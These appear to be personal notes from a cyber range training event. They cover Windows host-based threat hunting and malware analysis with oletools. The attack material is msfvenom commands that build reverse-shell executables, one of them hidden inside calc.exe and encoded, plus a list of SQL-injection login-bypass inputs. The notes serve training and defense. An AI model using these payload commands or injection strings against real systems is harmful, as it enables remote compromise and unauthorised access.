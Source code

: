<!--
Title: ASD Live Fire Exchange Programme (GitHub Markdown Version)
Author: Simon .I
Version: 2025.03.30
Description: GitHub-compatible Markdown (GHM) version using supported HTML like <details> and <table>.
-->

<!-- ASD Programme Title -->
<h1 align="center"><strong style="font-size: 4.5rem; letter-spacing: 4px; color: navy;">Australian Signals Directorate - Live Fire Exchange Program</strong></h1>

<p><strong>These are my personal notes from the <em>ASD Live Fire Cyberbitrange</em> event. This document is not provided by or affiliated with the <em>Australian Signals Directorate (ASD)</em> or <em>CyberbitRange</em>.</strong></p>

<details>
<summary><strong>🌐 LFE 1 Bangalore - Host-Based Threat Investigation</strong></summary>

### 🔎 Scenario: Command and Control (C2) Detection

- Gather logs using Event Viewer
- Identify malware via IOCs
- Remove malware and kill process
- Investigate network activity (C2)
- Block source and set firewall rules
- Remove persistence (startup/registry/scheduled tasks)

### 🧱 Step 1: Process Monitoring
```powershell
taskmgr

tasklist | findstr /i "powershell cmd python wscript cscript mshta wmic rundll32 regsvr32 schtasks bitsadmin"

taskkill /F /PID <PID>

eventvwr
```

### 🗓 Step 2: Scheduled Tasks
```powershell
taskschd

Get-ScheduledTask | ? {
  $_.TaskPath -notmatch "^\\Microsoft\\Windows" -and 
  ($_.Actions | % Execute | Out-String) -match "cmd|powershell|python|wscript|cscript|.bat|.vbs|.js|.py|mshta|rundll32|schtasks|bitsadmin"
}

Unregister-ScheduledTask -TaskName "<SuspiciousTaskName>" -Confirm:$false
```

### 🧼 Step 3: Registry Startup
```powershell
regedit

reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

### 🌐 Step 4: Network Communications
```powershell
netstat -bano
```

### 📁 Step 5: File Investigation
```powershell
Get-ChildItem -Path C:\Users -Include *.xlsx,*.docx,*.pdf -File -Recurse -ErrorAction SilentlyContinue
```

</details>

---

<details>
<summary><strong>🌋 LFE 2 Jakarta - Multi-Stage Malware & Analysis</strong></summary>

### 🔎 Scenario: Multi-Stage Malware with Data Exfiltration

- Analyse a malicious Office macro embedded in a phishing document
- Trace execution of an obfuscated VB script delivering a reverse shell payload
- Investigate payload generated using `msfvenom` to understand its capabilities
- Identify encrypted files and inspect use of OpenSSL for local encryption
- Monitor network activity and identify exfiltration using Wireshark
- Discover and exploit an SQL injection vulnerability for unauthorised data access

### 🔎 Macro Analysis with `oletools`

`oletools` is a Python-based toolset for analysing Microsoft OLE2 files (e.g. Office documents). It helps detect malicious macros, extract metadata, and uncover indicators of compromise.

#### 🔧 Common Tools & Flags:
```bash
olevba -a suspicious.doc
olevba -c suspicious.doc
olevba --decode suspicious.doc
olevba --json suspicious.doc

mraptor suspicious.doc
mraptor --json suspicious.doc

olemeta suspicious.doc
olemeta --json suspicious.doc

oleid suspicious.doc
oleid --json suspicious.doc

oleobj -e -d output suspicious.doc
rtfobj -d output suspicious.rtf
```

### 💣 Payload Crafting with `msfvenom`

```bash
msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <format> -o <output> [-e <encoder>] [-i <iterations>] [-x <template.exe>]
```

#### 🧾 Flag Breakdown:
- `-p`: Payload type
- `LHOST`: Attacker IP
- `LPORT`: Listener port
- `-f`: Output format (e.g. exe, elf, psh)
- `-o`: Output file
- `-e`: Encoder
- `-i`: Iterations
- `-x`: Inject into another executable

#### 🧰 Examples:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 -f exe -o payload.exe

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.10 -f exe -x C:\Windows\System32\calc.exe -o mal.exe -e x86/shikata_ga_nai -i 3
```

### 🔐 File Encryption with OpenSSL
```bash
openssl.exe enc -aes-256-cbc -base64 -in "C:\Users\cyberuser\Desktop\Files\Pass.txt" -out "C:\Users\cyberuser\Desktop\Pass.enc" -K 000001234567890ABCDEFABCDEF -iv 0
```

### 📊 Wireshark Filters
```wireshark
frame.number == 1437
frame.number >= 1434 and frame.number <= 1440
tcp.analysis.retransmission
frame.number == 1437 and tcp.analysis.retransmission
```

### 🔢 SQL Injection Basics

**SQL injection** was found in a web-based login form hosted on the compromised environment.

#### Sample Inputs:
```text
Username: ' OR 1=1;--
Password: anything

Username: admin' --
Password: anything

Username: ' OR 'a'='a';--
Password: anything

Username: " OR ""="
Password: anything

Username: ' OR 1=1 LIMIT 1;--
Password: doesn't matter

Username: admin')--
Password: test

Username: ' UNION SELECT null, version();--
Password: anything
```

#### Underlying Query Logic:
```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password';
```

Injecting:
```sql
SELECT * FROM users WHERE username = '' OR 1=1;--' AND password = '';
```
</details>
